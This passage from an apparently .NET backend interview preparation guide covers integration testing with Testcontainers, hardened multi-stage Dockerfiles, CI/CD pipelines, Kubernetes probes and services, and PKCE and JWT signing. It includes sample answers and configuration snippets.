    * **Testcontainers for .NET:** Docker-based test library automatically provisioning ephemeral PostgreSQL, SQL Server, and Redis containers during test execution.
    * **Respawn Database State Reset:** High-performance database checkpoint reset tool restoring test databases to pristine states in 5ms without re-running migrations.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"We structure our test suite using 70% unit tests with xUnit and NSubstitute for domain entities, and 25% integration tests using WebApplicationFactory with Testcontainers running real PostgreSQL and Redis instances. This catches EF Core query translation bugs and migration issues before pull requests merge."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **Unit Testing:** Testing an aircraft's titanium bolt in a materials laboratory to verify it withstands 10,000 PSI. Fast, cheap, and isolated.
  * **Integration Testing:** Assembling the engine, fuel lines, and electrical avionics, mounting them to the wing, and testing if fuel flows when the throttle is engaged. Catches plumbing, connection, and alignment issues.
  * **The In-Memory Database Trap:** Testing the aircraft engine using a toy plastic propeller. The plastic propeller spins smoothly in your bedroom, but the moment you put it on a real jet at 35,000 feet (production SQL Server), it shatters!

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// Complete WebApplicationFactory Integration Test with In-Memory Host
public class CustomerIntegrationTests : IClassFixture<WebApplicationFactory<Program>>
{
    private readonly HttpClient _client;
    public CustomerIntegrationTests(WebApplicationFactory<Program> factory) => _client = factory.CreateClient();

    [Fact]
    public async Task CreateCustomer_WithValidPayload_Returns201Created()
    {
        var payload = new { Name = "Infosys Ltd", Industry = "IT Services" };
        var response = await _client.PostAsJsonAsync("/api/v1/customers", payload);

        response.StatusCode.Should().Be(HttpStatusCode.Created);
        var body = await response.Content.ReadFromJsonAsync<CustomerResponseDto>();
        body!.Name.Should().Be("Infosys Ltd");
    }
}
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Using EF Core's `UseInMemoryDatabase` for integration testing. Queries containing unsupported LINQ-to-SQL translations pass cleanly in memory, but throw runtime SQL syntax exceptions when deployed to SQL Server. Always use Testcontainers with the genuine production database engine!
  * **Interviewer Cross-Question:** *"When multiple integration tests run in parallel against a shared Testcontainer database, how do you prevent tests from corrupting each other's state?"*
  * **Senior Answer:** *"We solve test concurrency and state bleed using two mechanisms: First, we group database-dependent tests into a shared xUnit `[Collection("DatabaseCollection")]`, guaranteeing sequential execution within that collection. Second, we execute a Respawn checkpoint reset (`await _respawner.ResetAsync(_connection)`) in `DisposeAsync` between tests, cleanly truncating modified tables in under 15 milliseconds without dropping the schema or migrations."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Requirement | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Pure Algorithmic Logic** | xUnit + NSubstitute | Runs in < 1ms; immediate developer feedback loop. | `var mock = Substitute.For<IService>();` |
| **Pipeline & SQL Queries** | `WebApplicationFactory` + Testcontainers | Catches routing, model binding, and real SQL syntax errors. | Boot container via `new PostgreSqlBuilder().Build()` |
| **Fast DB Clean Between Tests** | Jimmy Bogard's Respawn | Resets state in 15ms vs 3000ms for dropping & recreating database. | Call `await _respawner.ResetAsync(conn);` |

---

# PART 3: CONTAINERIZATION, KUBERNETES & CI/CD PIPELINES

## Section 5: Docker Containerization for .NET APIs

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: Docker Base Images & Optimization

| Image Variant | Typical Size | Attack Surface | When to Use | Action Steps & Snippet |
| :--- | :--- | :--- | :--- | :--- |
| **Multi-Stage Alpine (`aspnet:8.0-alpine`)** | ~110 MB | Low | Standard microservices requiring small images and occasional shell access (`/bin/sh`). | Use `mcr.microsoft.com/dotnet/aspnet:8.0-alpine` in runtime stage. |
| **Chiseled Ubuntu (`aspnet:8.0-chiseled`)** | ~100 MB | Ultra-Minimal | High-security banking, FinTech, and healthcare requiring zero package managers and zero shells. | Use `mcr.microsoft.com/dotnet/aspnet:8.0-chiseled` with built-in non-root user `app`. |
| **Standard Debian (`aspnet:8.0`)** | ~220 MB | Medium | Legacy native C++ dependencies, proprietary ODBC drivers, wkhtmltopdf, or custom Linux fonts. | Use standard `mcr.microsoft.com/dotnet/aspnet:8.0`. |

#### Minimal Clean Production Dockerfile (.NET 8 Best Practices)
```dockerfile
# -------------------------------------------------------------
# STAGE 1: Build & Restore using full .NET SDK
# -------------------------------------------------------------
FROM mcr.microsoft.com/dotnet/sdk:8.0-alpine AS build
WORKDIR /src

# Layer Cache Optimization: Restore dependencies before copying full source!
COPY ["MyApi.csproj", "./"]
RUN dotnet restore "MyApi.csproj"

# Copy remaining code and publish optimized release binaries
COPY . .
RUN dotnet publish "MyApi.csproj" -c Release -o /app/publish --no-restore /p:UseAppHost=false

# -------------------------------------------------------------
# STAGE 2: Hardened, Minimal Non-Root Runtime
# -------------------------------------------------------------
FROM mcr.microsoft.com/dotnet/aspnet:8.0-alpine AS final
WORKDIR /app

# Switch to pre-configured unprivileged user (UID 1654 / app)
USER app

# Transfer only compiled binaries from build stage
COPY --from=build --chown=app:app /app/publish ./

# Configure non-root port 8080 and disable telemetry diagnostics
ENV ASPNETCORE_URLS=http://+:8080 \
    DOTNET_EnableDiagnostics=0

EXPOSE 8080
ENTRYPOINT ["dotnet", "MyApi.dll"]
```

---

### Q8 (TCS / Cognizant / Capgemini / Nagarro): "Explain the architecture of a Production Multi-Stage Dockerfile for ASP.NET Core. Why separate dotnet build from the aspnet runtime, why run as a non-root user (app), and how do you optimize image size?"

* **Why Interviewers Ask It:** Containerization is universal in modern enterprise cloud migrations. Interviewers check whether you blindly use default bloated images running as root, or know how to structure multi-stage builds that shrink images by 85% and eliminate container breakout CVEs.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "A production Dockerfile follows a **multi-stage architecture** with two distinct stages: Stage 1 utilizes the heavy .NET SDK image (~850 MB) containing compilers, NuGet, and MSBuild to restore and publish optimized binaries. Stage 2 copies *only* the compiled `.dll` artifacts into an ultra-lightweight, hardened runtime image (~100 MB, e.g. Alpine or Chiseled). We run under the built-in unprivileged **non-root user (`app`, UID 1654)** listening on port 8080 to prevent container breakout exploits. We optimize layer caching by copying `.csproj` files and running `dotnet restore` *before* copying the remaining source code."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"A multi-stage Docker build is a container optimization and security design pattern that utilizes separate build-time and runtime image stages—compiling source code using a heavy SDK image in early stages and copying only published, compiled release binaries into a lightweight, stripped-down runtime base image running as an unprivileged, non-root user."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Multi-Stage Build Architecture:** Docker pattern separating the build-time compiler environment from the production runtime container.
    * **Layer Caching Optimization:** Copying .csproj and running dotnet restore before copying full source code to maximize Docker layer cache hits.
    * **Minimal Runtime Images (Chiseled / Alpine):** Stripped-down Linux container images containing zero package managers, bash shells, or unneeded utilities.
    * **Non-Root Execution (USER app / UID 1654):** Running container processes under unprivileged user accounts to block root container breakouts.
    * **Attack Surface Minimization:** Removing build tools (dotnet SDK, compilers, curl) from final production runtime images.
    * **Container Security Hardening:** Read-only root filesystems, resource limits (cgroups), and non-root execution.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"Our production Dockerfile uses a 2-stage build: a .NET 8 SDK image for dependency restore and compilation, and an ultra-lean mcr.microsoft.com/dotnet/aspnet:8.0-chiseled runtime image. Running as the unprivileged non-root app user shrinks our image size from 800MB to 110MB and blocks root privilege escalation vulnerabilities."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **Multi-Stage Build:** A luxury restaurant kitchen versus the dining hall. The kitchen backroom (Stage 1 SDK) has massive flour sacks, noisy dough mixers, meat grinders, and dirty pans. But the customer dining room (Stage 2 Runtime) receives only the finished, beautifully plated dish. You never bring the 50kg flour sack or industrial grinder to the customer table!
  * **Non-Root User:** Handing a guest an electronic room keycard that opens only their bedroom door, instead of handing them the building superintendent's master skeleton key.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```dockerfile
# Minimal multi-stage layer caching demonstration
FROM mcr.microsoft.com/dotnet/sdk:8.0-alpine AS build
WORKDIR /src
COPY ["*.csproj", "./"]
RUN dotnet restore # Cached layer unless .csproj dependencies change!
COPY . .
RUN dotnet publish -c Release -o /app/out --no-restore

FROM mcr.microsoft.com/dotnet/aspnet:8.0-alpine AS runtime
WORKDIR /app
USER app
COPY --from=build --chown=app:app /app/out .
ENV ASPNETCORE_URLS=http://+:8080
ENTRYPOINT ["dotnet", "MyApi.dll"]
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Writing `COPY . .` *before* `RUN dotnet restore`. If you copy all code files first, every single semicolon edit or code comment change invalidates the Docker cache layer, forcing Docker to re-download all NuGet packages on every CI build!
  * **Interviewer Cross-Question:** *"Why did your container fail with 'System.Net.Sockets.SocketException: Permission denied' when you switched to a non-root user?"*
  * **Senior Answer:** *"In Linux, binding to ports below 1024 (such as standard HTTP port 80) requires root privileges. Because non-root user `app` has UID 1654, it is denied permission to open port 80. In .NET 8, Microsoft resolved this by changing the default container listening port to 8080 via `ENV ASPNETCORE_URLS=http://+:8080`."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Optimization Factor | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Layer Cache Optimization** | Copy `.csproj` $\rightarrow$ Restore $\rightarrow$ Copy source | Eliminates redundant NuGet package downloads on CI runners. | `COPY *.csproj ./` then `RUN dotnet restore` |
| **Container Hardening** | `USER app` (UID 1654) | Prevents container escape attacks granting host root access. | Add `USER app` before `ENTRYPOINT` |
| **Base Image Size** | Alpine or Chiseled Ubuntu | Shrinks image from ~850MB (SDK) to ~100MB runtime. | `FROM mcr.microsoft.com/dotnet/aspnet:8.0-alpine` |

---

## Section 6: CI/CD Pipelines with Azure DevOps & GitHub Actions

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: CI/CD Pipelines & Quality Gates

| Pipeline Component | Tooling | Purpose | What Must Be Done (Action Steps & Snippet) |
| :--- | :--- | :--- | :--- |
| **Continuous Integration (CI)** | Azure Pipelines / GitHub Actions | Restores packages, compiles code in Release mode, runs automated xUnit test suites. | Run `dotnet test --collect:"XPlat Code Coverage"`. |
| **Static Code Analysis** | SonarQube / SonarCloud | Enforces architectural quality gates, code smells, duplicate code, and security vulnerabilities. | Integrate `SonarQubePrepare` task and enforce Quality Gate failure trigger. |
| **Container Artifact Packaging** | Docker Build & Push | Packages immutable container tagged with Git commit SHA and pushes to ACR or GitHub Container Registry (GHCR). | `docker build -t myacr.azurecr.io/api:$(Build.SourceVersion) .` |
| **Continuous Deployment (CD)** | Azure Pipelines Release / ArgoCD | Deploys container image into Kubernetes staging or production clusters. | Apply Helm chart or `kubectl set image deployment/api api=image:tag`. |

#### 1. Minimal Production Azure DevOps Pipeline (`azure-pipelines.yml`)
```yaml
trigger:
  branches:
    include:
      - main

pool:
  vmImage: 'ubuntu-latest'

variables:
  buildConfiguration: 'Release'

stages:
- stage: BuildAndTest
  displayName: 'Build, Test & Quality Gate'
  jobs:
  - job: Compile
    steps:
    - task: UseDotNet@2
      inputs:
        version: '8.0.x'

    - script: dotnet restore
      displayName: 'Restore NuGet Packages'

    - script: dotnet build --configuration $(buildConfiguration) --no-restore
      displayName: 'Compile Solution'

    - script: dotnet test --configuration $(buildConfiguration) --no-build --collect:"XPlat Code Coverage" --results-directory $(Agent.TempDirectory)
      displayName: 'Execute xUnit Tests'

- stage: SonarQubeQualityGate
  displayName: 'SonarQube Analysis'
  dependsOn: BuildAndTest
  jobs:
  - job: Analyze
    steps:
    - task: SonarQubePrepare@5
      inputs:
        SonarQube: 'SonarQubeServiceConnection'
        scannerMode: 'MSBuild'
        projectKey: 'OrderService_Api'
    - script: dotnet build
    - task: SonarQubeAnalyze@5
    - task: SonarQubePublish@5
      inputs:
        pollingTimeoutSec: '300'
```

#### 2. Minimal Production GitHub Actions Workflow (`.github/workflows/deploy.yml`)
```yaml
name: .NET Core CI/CD Pipeline

on:
  push:
    branches: [ "main" ]

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4

    - name: Setup .NET
      uses: actions/setup-dotnet@v4
      with:
        dotnet-version: '8.0.x'

    - name: Restore Dependencies
      run: dotnet restore

    - name: Build Solution
      run: dotnet build --no-restore -c Release

    - name: Run Tests
      run: dotnet test --no-build -c Release --verbosity normal

    - name: Log in to Azure Container Registry
      uses: azure/docker-login@v1
      with:
        login-server: ${{ secrets.REGISTRY_LOGIN_SERVER }}
        username: ${{ secrets.REGISTRY_USERNAME }}
        password: ${{ secrets.REGISTRY_PASSWORD }}

    - name: Build and Push Docker Image
      run: |
        docker build -t ${{ secrets.REGISTRY_LOGIN_SERVER }}/order-api:${{ github.sha }} .
        docker push ${{ secrets.REGISTRY_LOGIN_SERVER }}/order-api:${{ github.sha }}
```

---

### Q9 (Accenture / Deloitte / EY / Persistent): "Walk me through an enterprise CI/CD Pipeline for .NET APIs using Azure DevOps (azure-pipelines.yml) or GitHub Actions. How do you integrate automated unit/integration tests and a SonarQube quality gate before production deployment?"

* **Why Interviewers Ask It:** Enterprise systems in Indian IT and GCC hubs demand automated deployment pipelines with zero manual interventions. Interviewers evaluate whether you understand how code moves safely from pull request to production, enforcing quality gates, container pushes, and automated rollbacks.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "An enterprise CI/CD pipeline consists of four automated stages: **1. Build & Lint:** Validates solution compilation and enforces zero compiler warnings. **2. Automated Test Execution:** Executes xUnit unit and integration tests, capturing code coverage reports. **3. SonarQube Quality Gate:** Performs static analysis scanning for security hotspots, code smells, and cyclomatic complexity; the pipeline hard-fails if code coverage is below 80% or any high-severity vulnerability exists. **4. Container Packaging & Deployment:** Builds a multi-stage Docker image, tags it with the immutable Git commit SHA, pushes it to Azure Container Registry (ACR), and updates Kubernetes manifests via GitOps or Helm."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Continuous Integration and Continuous Deployment (CI/CD) is an automated software delivery lifecycle wherein developer code commits trigger automated build, linting, unit/integration testing, static code analysis (SonarQube quality gates), container image compilation, and progressive blue-green or canary deployment across environments with zero manual interventions."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **CI/CD Pipeline Automation:** Declarative YAML pipelines (azure-pipelines.yml / GitHub Actions) automating verification from PR to production.
    * **SonarQube Static Application Security Testing (SAST):** Automated code analyzer detecting code smells, security vulnerabilities, and technical debt.
    * **Quality Gate Enforcement:** Automated pipeline criteria blocking PR merges if code coverage drops below 80% or new vulnerabilities are detected.
    * **Multi-Stage Deployment Pipelines:** Build & Test Stage -> Container Image Push (ACR) -> Staging Deployment -> Production Approval Gate.
    * **Artifact Immutability:** Building a Docker image once in CI and promoting the exact same SHA-pinned container digest across dev, staging, and prod.
    * **Blue-Green & Canary Zero-Downtime Deployments:** Progressive deployment techniques routing traffic between idle/live environments or gradually shifting user percentages.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"Our GitHub Actions workflow automatically restores, builds, runs xUnit tests with code coverage, and executes a SonarQube quality gate on every pull request. If code coverage drops below 80% or any high-severity security vulnerability is detected, the PR merge is blocked automatically."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * An automated car assembly plant.
  * **Station 1 (Build):** The chassis and engine are assembled.
  * **Station 2 (Unit Tests):** The brake calipers, spark plugs, and headlights are tested individually.
  * **Station 3 (SonarQube Quality Gate):** High-precision lasers scan the bodywork for microscopic hairline cracks, paint thickness, and structural integrity. If a crack is detected, the assembly arm rejects the car immediately—it never proceeds to the test track!
  * **Station 4 (Deploy):** The finished car is assigned a unique VIN number (Git commit SHA) and shipped to the dealership.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```yaml
# SonarQube Quality Gate check step in Azure DevOps pipeline
- task: SonarQubePrepare@5
  inputs:
    SonarQube: 'SonarQubeServer'
    scannerMode: 'MSBuild'
    projectKey: 'FinanceService'
- script: dotnet build --no-incremental
- task: SonarQubeAnalyze@5
- task: SonarQubePublish@5
  inputs:
    pollingTimeoutSec: '300' # Polls server; pipeline FAILS if Quality Gate is red!
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Using the `:latest` Docker tag in deployment pipelines! When rolling back, Kubernetes cannot determine whether `:latest` has changed, leading to cache issues and impossible rollback traceability. Always tag images with `$(Build.SourceVersion)` (Git SHA) or semantic release versions (`v1.4.2`).
  * **Interviewer Cross-Question:** *"Where do you inject production database connection strings and JWT signing keys during the pipeline build?"*
  * **Senior Answer:** *"Secrets are NEVER injected during the container build stage! Baking secrets into container images permanently compromises them in image registries. The container image must be built once as an immutable binary artifact. Database connection strings and API keys are injected at runtime via Kubernetes Secrets or Azure Key Vault references."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Pipeline Step | Tool / Task | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Unit & Integration Tests** | `dotnet test --collect:"XPlat Code Coverage"` | Generates Coverlet format coverage files for analysis. | Run task with `--results-directory $(Agent.TempDirectory)` |
| **Code Smells & Security** | SonarQube / SonarCloud | Blocks dirty code from ever entering the `main` branch. | Add `SonarQubePublish` with polling timeout |
| **Container Image Tagging** | Git Commit SHA (`$(Build.SourceVersion)`) | Guarantees 100% deterministic, reproducible rollbacks. | `docker build -t acr.io/app:$(Build.SourceVersion) .` |

---

## Section 7: Kubernetes Fundamentals & Health Probes

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: Kubernetes Workloads & Networking

| Kubernetes Primitive | What It Does | When to Choose | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Pod** | Atomic execution unit containing one or more tightly-coupled containers sharing IP & storage. | Rarely created directly; always managed via Deployments. | Base container unit in pod manifest. |
| **Deployment** | Declarative controller managing Pod replicas, rolling updates, and self-healing restarts. | Stateless Web APIs, microservices, and background queue workers. | Define `kind: Deployment` with `replicas: 3`. |
| **ClusterIP Service** | Internal virtual IP providing round-robin load balancing within the cluster. | Private backend APIs, internal microservices (never exposed to public internet). | `spec: { type: ClusterIP, ports: [{ port: 80, targetPort: 8080 }] }` |
| **NodePort Service** | Exposes static port (30000–32767) on each physical cluster node's IP. | Internal dev/debugging or legacy network topologies. | Set `spec: { type: NodePort }`. |
| **LoadBalancer Service** | Automatically provisions cloud provider load balancer (e.g. Azure ALB / AWS NLB) with public IP. | Direct ingress without dedicated ingress controller (costly if overused). | Set `spec: { type: LoadBalancer }`. |
| **Ingress** | Application-layer (L7) HTTP/HTTPS reverse proxy routing path-based traffic to Services. | Single external public IP routing to 50+ internal microservice Services with SSL termination. | Define `kind: Ingress` with routing rules (`/orders` -> `order-svc`). |
| **ConfigMap vs Secret** | ConfigMap stores non-sensitive plaintext keys; Secret stores Base64/encrypted keys. | ConfigMap for log levels and endpoints; Secret for DB connection strings and tokens. | Mount as environment variables or volume mounts in pod spec. |

#### 1. Minimal Production Kubernetes Manifest (Deployment + Service + Ingress)
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: order-api-deployment
spec:
  replicas: 3
  selector:
    matchLabels:
      app: order-api
  template:
    metadata:
      labels:
        app: order-api
    spec:
      containers:
      - name: order-api
        image: myacr.azurecr.io/order-api:v1.2.0
        ports:
        - containerPort: 8080
        resources:
          requests:
            cpu: "100m"
            memory: "128Mi"
          limits:
            cpu: "500m"
            memory: "512Mi"
        livenessProbe:
          httpGet:
            path: /healthz/live
            port: 8080
          initialDelaySeconds: 10
          periodSeconds: 15
        readinessProbe:
          httpGet:
            path: /healthz/ready
            port: 8080
          initialDelaySeconds: 10
          periodSeconds: 10
---
apiVersion: v1
kind: Service
metadata:
  name: order-api-service
spec:
  type: ClusterIP
  selector:
    app: order-api
  ports:
  - port: 80
    targetPort: 8080
```

#### 2. Health Check Separation in ASP.NET Core `Program.cs` (C#)
```csharp
// Program.cs - Critical separation of Liveness vs Readiness checks
builder.Services.AddHealthChecks()
    // Liveness checks ONLY internal process health (zero database calls!)
    .AddCheck("self", () => HealthCheckResult.Healthy(), tags: new[] { "live" })
    // Readiness checks external dependencies
    .AddNpgSql(builder.Configuration.GetConnectionString("Db")!, tags: new[] { "ready" });

var app = builder.Build();

app.MapHealthChecks("/healthz/live", new() { Predicate = c => c.Tags.Contains("live") });
app.MapHealthChecks("/healthz/ready", new() { Predicate = c => c.Tags.Contains("ready") });
```

---

### Q10 (Wells Fargo / Walmart / EPAM / Nagarro): "Explain core Kubernetes fundamentals for .NET developers: Pods vs Deployments, Services (ClusterIP vs NodePort vs LoadBalancer), Ingress, ConfigMaps vs Secrets, and Liveness vs Readiness probes."

* **Why Interviewers Ask It:** Enterprise backend systems are hosted almost exclusively on Kubernetes (AKS, EKS, OpenShift). Interviewers expect senior developers to understand pod lifecycles, service networking, and the catastrophic danger of misconfiguring Liveness probes.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "A **Pod** is the smallest deployable compute unit in Kubernetes, wrapping one or more containers sharing an IP and network namespace. A **Deployment** manages declarative replication, scaling, and rolling updates for Pods. Networking is handled by **Services**: `ClusterIP` exposes pods internally, `NodePort` exposes a high port on node IPs, and `LoadBalancer` provisions cloud external IPs. An **Ingress** acts as a Layer 7 reverse proxy routing paths to Services with TLS termination. Crucially, **Liveness Probes** verify the container process is responsive (restarting it on failure), while **Readiness Probes** verify dependencies like databases (removing the pod from traffic on failure). A Liveness probe must **never** check external databases to avoid catastrophic cascading restart storms."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Kubernetes is an open-source container orchestration platform that automates deployment, scaling, and operational management of containerized workloads across compute clusters using declarative manifests defining Pods (atomic execution units), Deployments (replica management and rolling updates), Services (internal L4 load balancing), Ingress (external L7 routing), and Health Probes (Liveness and Readiness lifecycle controllers)."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Pod vs. Deployment:** A Pod is the smallest deployable computing unit in K8s; a Deployment manages Pod replica counts, declarative rollouts, and rollbacks via ReplicaSets.
    * **Kubernetes Services (ClusterIP vs NodePort vs LoadBalancer):** ClusterIP provides internal-only cluster VIP; NodePort opens a static node port; LoadBalancer provisions external cloud LB.
    * **Ingress Controller:** L7 reverse proxy (e.g., NGINX / Traefik) routing external HTTP/HTTPS traffic to internal cluster services based on host and path rules.
    * **ConfigMaps vs. Secrets:** ConfigMaps store plain text environment configuration; Secrets store base64-encoded credentials mounted as env vars or volumes.
    * **Liveness Probe (/healthz/live):** Monitors process responsiveness; failure causes Kubernetes kubelet to kill and restart the container.
    * **Readiness Probe (/healthz/ready):** Monitors dependency health (DB/Kafka); failure removes pod IP from Service endpoints without restarting the process.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"In our AKS deployment, we separate Liveness and Readiness probes in ASP.NET Core: the Liveness probe (/healthz/live) only checks local process responsiveness to prevent cascading restart storms, while the Readiness probe (/healthz/ready) verifies database and Kafka connectivity before routing traffic to the pod."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **Pod:** A shipping container on a cargo freighter holding your cargo.
  * **Deployment:** The fleet manager ensuring exactly 5 identical shipping containers are maintained in active rotation at all times.
  * **ClusterIP Service:** The internal intercom system connecting departments inside the cargo ship.
  * **Ingress:** The harbor control tower directing incoming trucks from the city to the correct ship dock based on the shipping address.
  * **Liveness vs Readiness:** 
    * *Liveness:* Checking if the truck driver has a heartbeat. If the driver is unconscious, call an ambulance and replace the driver (restart container).
    * *Readiness:* Checking if the road ahead is clear of snow. If blocked, park the truck and stop loading new deliveries (drain traffic). You don't fire the driver just because the highway has a traffic jam!

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```yaml
# Safe Liveness & Readiness Probe Configuration
livenessProbe:
  httpGet:
    path: /healthz/live  # Checks in-memory heartbeat ONLY!
    port: 8080
  initialDelaySeconds: 15
  periodSeconds: 20
  failureThreshold: 3
readinessProbe:
  httpGet:
    path: /healthz/ready # Checks DB & Redis connectivity
    port: 8080
  initialDelaySeconds: 10
  periodSeconds: 10
  failureThreshold: 2
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Checking SQL Server or Redis connectivity inside a **Liveness Probe**. If SQL Server experiences a 10-second CPU spike or failover, every single API pod times out on its liveness probe. Kubernetes immediately kills and restarts all 50 pods at once! When the 50 pods reboot, they all storm SQL Server with new connection attempts simultaneously, permanently crippling the database! External dependencies belong strictly in the **Readiness Probe**.
  * **Interviewer Cross-Question:** *"What is the difference between ClusterIP, NodePort, and LoadBalancer Services?"*
  * **Senior Answer:** *"A `ClusterIP` assigns an internal virtual IP accessible only within the Kubernetes cluster—used for private backend APIs. A `NodePort` exposes a static high port (30000–32767) on every node's external IP—used for internal debugging. A `LoadBalancer` integrates directly with cloud providers (like Azure ALB) to provision a dedicated public IP—used when you need a direct cloud entrance, though standard practice is putting an Ingress Controller behind a single LoadBalancer to route to multiple ClusterIP services."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Scenario | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Container Process Frozen / Deadlocked** | Liveness Probe (`/healthz/live`) | Automatically kills and restarts un-recoverable containers. | Check internal heartbeat: `() => HealthCheckResult.Healthy()` |
| **Database or Redis Down** | Readiness Probe (`/healthz/ready`) | Removes pod from Service endpoints; avoids dropped user traffic without rebooting. | Add dependency check: `.AddNpgSql(connectionString)` |
| **Multiple Microservices behind 1 Domain** | Ingress Controller | Provides path-based routing (`/api/orders`, `/api/users`) and SSL termination. | Define `kind: Ingress` pointing to internal `ClusterIP` Services |

---

# PART 4: ADVANCED ARCHITECTURAL REFERENCE & PRODUCTION MECHANICS

This section preserves deep-dive production engineering diagrams, RFC cryptographic mechanics, and architectural blueprints for senior and principal bar-raiser interview rounds.

---

### 1. Proof Key for Code Exchange (PKCE) for Single Page Applications (RFC 7636)

#### ⚡ 30-Second Senior Pitch
> "PKCE (RFC 7636) secures the OAuth 2.0 Authorization Code flow for public clients (Angular SPAs and Mobile Apps) that cannot securely store a `client_secret`. By dynamically generating a cryptographically random **`code_verifier`** and sending its SHA-256 hash (**`code_challenge`**) during the initial authorization request, PKCE prevents malicious browser extensions or mobile OS interceptors from exchanging an intercepted authorization code for access tokens."

#### 🎯 Must-Know Technical Terms & Buzzwords
* **PKCE (Proof Key for Code Exchange / RFC 7636):** Cryptographic protocol extension mitigating authorization code interception attacks on public clients.
* **Public Client:** An application (SPA, mobile app, desktop app) whose compiled client code is fully accessible to end users, rendering it incapable of holding confidential secrets.
* **`code_verifier`:** High-entropy cryptographic random string (43–128 characters) created dynamically by the client in memory for each authentication request.
* **`code_challenge`:** The Base64URL-encoded SHA-256 hash of the `code_verifier` (`code_challenge = BASE64URL-ENCODE(SHA256(code_verifier))`).
* **Authorization Code Interception Attack:** Attack vector where a malicious application or browser extension intercepts the one-time authorization code returned via the browser redirect URI.



#### 📌 Deep Technical Mechanics & Architecture
1. **The Vulnerability of Implicit Flow & Plain Auth Code Flow:**
   * Legacy **Implicit Flow** returned access tokens directly in the URL hash fragment (`#access_token=...`), leaking tokens into browser history, proxies, and referer headers. Deprecated in OAuth 2.1!
   * Plain **Authorization Code Flow** without PKCE required a hardcoded `client_secret`. In an Angular SPA, any user can inspect `main.js` and extract the secret.
2. **Cryptographic Proof of Possession:**
   * Step 1: Angular client generates 128 bytes of secure randomness (`code_verifier`).
   * Step 2: Client computes `code_challenge = Base64Url(SHA256(code_verifier))` and sends it to `/authorize`.
   * Step 3: IDP records `code_challenge` alongside the issued authorization code.
   * Step 4: When exchanging the code at `/token`, the client sends the raw `code_verifier`. The IDP hashes it; if it matches, it proves the party requesting the token is the exact same party that initiated the flow.

#### 💼 Concrete Real-World Production Example (Angular Standalone Auth Config with PKCE)
```typescript
// auth.config.ts - Angular PKCE Integration with angular-oauth2-oidc
import { AuthConfig } from 'angular-oauth2-oidc';

export const authCodeFlowConfig: AuthConfig = {
  issuer: 'https://auth.bank.com/realms/wealth',
  redirectUri: window.location.origin + '/index.html',
  clientId: 'wealth-portal-spa',
  responseType: 'code', // Mandates Authorization Code Flow
  scope: 'openid profile email portfolio.read portfolio.write',
  showDebugInformation: false,
  
  // STRICT SECURITY: Enforce PKCE RFC 7636 with SHA-256
  disablePKCE: false,
  customQueryParams: {
    code_challenge_method: 'S256'
  },
  
  // Store tokens in memory or session storage, never localStorage!
  sessionChecksEnabled: true,
  clearHashAfterLogin: true
};
```

---

### 2. Symmetric (HS256) vs. Asymmetric (RS256) Signing & JWKS Key Rotation

#### ⚡ 30-Second Senior Pitch
> "Symmetric signing (HS256) uses a single shared secret for both signing and verification, creating catastrophic key-exposure blast radiuses in distributed microservices. Asymmetric signing (RS256) uses a private RSA key to sign tokens at the IDP and a public key to verify them across downstream microservices. Downstream APIs dynamically fetch and cache public keys via the **JWKS endpoint** (`/.well-known/jwks.json`), enabling zero-downtime key rotation."

#### 🎯 Must-Know Technical Terms & Buzzwords
* **HS256 (HMAC-SHA256):** Symmetric cryptographic signing algorithm requiring every verifying service to store the master signing secret.
* **RS256 (RSA Signature with SHA-256):** Asymmetric signing algorithm where only the IDP holds the private key, while public keys are distributed openly.
